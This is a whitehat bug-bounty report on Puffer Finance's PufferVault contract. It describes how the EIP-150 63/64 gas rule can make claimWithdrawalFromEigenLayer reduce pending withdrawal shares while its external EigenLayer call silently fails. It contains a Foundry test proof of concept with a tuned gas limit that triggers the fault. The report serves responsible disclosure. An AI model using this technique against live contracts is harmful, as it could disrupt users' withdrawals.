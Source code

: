 # External Call from Eigen Layer can fail silently in the claimWithdrawalFromEigenLayer function
Submitted about 2 months ago by @Cryptor (Whitehat) for Boost | Puffer Finance

Report ID: #28732
Report type: Smart Contract
Has PoC? Yes
Target: https://etherscan.io/address/0xd9a442856c234a39a81a089c06451ebaa4306a72

# Impacts
- Contract fails to deliver promised returns, but doesn't lose value

# Details
Description

# Brief/Intro
The function `claimWithdrawalFromEigenLayer` is unprotected and makes an external call to eigen layer at the end of the function without checking the return value. This can result in a possible exploit where a user can call claimWithdrawalFromEigenLayer and pass in just enough gas to reduce the amount of pending shares while the eigenlayer call fails

# Vulnerability Details
Observe the following code

https://github.com/PufferFinance/pufETH/blob/14b15a3c94b65d895ea08b5faa1cfed0dfc18bd0/src/PufferVault.sol#L222-L243

The function claimWithdrawalFromEigenLayer allows a user to claim stETH withdrawals from EigenLayer. If fetches some values from Eigen Layer and then makes some checks. Pay attention to the following lines

```
  $.eigenLayerPendingWithdrawalSharesAmount -= queuedWithdrawal.shares[0];

        _EIGEN_STRATEGY_MANAGER.completeQueuedWithdrawal({
            queuedWithdrawal: queuedWithdrawal,
            tokens: tokens,
            middlewareTimesIndex: middlewareTimesIndex,
            receiveAsTokens: true
        });
```

It reduces the pending shares and then makes an external call to Eigen to complete the queued withdrawal of shares. However due to the 1/64th rule in etheruem and the lack of a return value check on the external call, there is a way to make the function pass while making the external call to eigen silently fail causing an erroneous accounting of eigenLayerPendingWithdrawalSharesAmount, which can be reduced without any withdrawal actually taking place.

# Impact Details
A bad actor exploiting this vulnerability could disrupt the withdrawal process. By causing the external call to Eigen to fail while reducing the pending shares, the actor could manipulate the queuing system. This could ultimately lead to withdrawals being delayed or, in worse scenarios, not processed at all.

# References
https://medium.com/iovlabs-innovation-stories/the-dark-side-of-ethereum-1-64th-call-gas-reduction-ba661778568c

https://github.com/ethereum/EIPs/blob/master/EIPS/eip-150.md

https://solodit.xyz/issues/h-08-gas-limit-check-is-inaccurate-leading-to-an-operator-being-able-to-fail-a-job-intentionally-code4rena-holograph-holograph-contest-git

# Proof of concept
Proof of Concept

(Note: The following helper external view function was added to the puffervault contract to fetch share value from the VaultStorage struct to make writing the test easier. Nothing else has changed in the code.)

```
function getvaultwithdrawshares () public view returns (uint) {

          VaultStorage storage $ = _getPufferVaultStorage();

        return $.eigenLayerPendingWithdrawalSharesAmount;
    }
```

Foundry Test (modified test_withdraw_from_eigenlayer):

```
function test_withdraw_from_eigenLayer()
        public
        giveToken(BLAST_DEPOSIT, address(stETH), address(pufferVault), 1000 ether) // Blast got a lot of stETH
    {

         
        // Simulate stETH cap increase call on EL
        _increaseELstETHCap();

        vm.startPrank(OPERATIONS_MULTISIG);
        pufferVault.depositToEigenLayer(stETH.balanceOf(address(pufferVault)));

        uint256 ownedShares = _EIGEN_STRATEGY_MANAGER.stakerStrategyShares(address(pufferVault), _EIGEN_STETH_STRATEGY);

        uint256 assetsBefore = pufferVault.totalAssets();

        // Initiate the withdrawal
        pufferVault.initiateStETHWithdrawalFromEigenLayer(ownedShares);

        // 1 wei diff because of rounding
        assertApproxEqAbs(assetsBefore, pufferVault.totalAssets(), 1, "should remain the same when locked");

        IERC20[] memory tokens = new IERC20[](1);
        tokens[0] = IERC20(address(stETH));

        IStrategy[] memory strategies = new IStrategy[](1);
        strategies[0] = IStrategy(_EIGEN_STETH_STRATEGY);

        uint256[] memory shares = new uint256[](1);
        shares[0] = ownedShares;

        IEigenLayer.WithdrawerAndNonce memory withdrawerAndNonce =
            IEigenLayer.WithdrawerAndNonce({ withdrawer: address(pufferVault), nonce: 0 });

        IEigenLayer.QueuedWithdrawal memory queuedWithdrawal = IEigenLayer.QueuedWithdrawal({
            strategies: strategies,
            shares: shares,
            depositor: address(pufferVault),
            withdrawerAndNonce: withdrawerAndNonce,
            withdrawalStartBlock: uint32(block.number),
            delegatedAddress: address(0)
        });

        // Roll block number + 100k blocks into the future
        vm.roll(block.number + 100000);


        
        
        /*added an external helper function getvaultwithdrawshares to the puffer vault contract to fetch 
        the pendingwithdrawsharesamount */
        uint puffervaultsharesbefore = pufferVault.getvaultwithdrawshares();


        /*Exploits EIP 150 to pass in just enough gas to reduce shares amount while allowing 
        the external call to eigen layer to fail silently 
        */
        uint gasLimit = (gasleft()* 63/64) - 1;

        /* Claim Withdrawal. Final call to Eigen Layer would revert while the erroneous accouting of   shares still remain */
        pufferVault.claimWithdrawalFromEigenLayer{gas: gasLimit}(queuedWithdrawal, tokens, 0);

        //
        uint puffervaultsharesafter = pufferVault.getvaultwithdrawshares();

        assert(puffervaultsharesafter < puffervaultsharesbefore);

       
    }
```
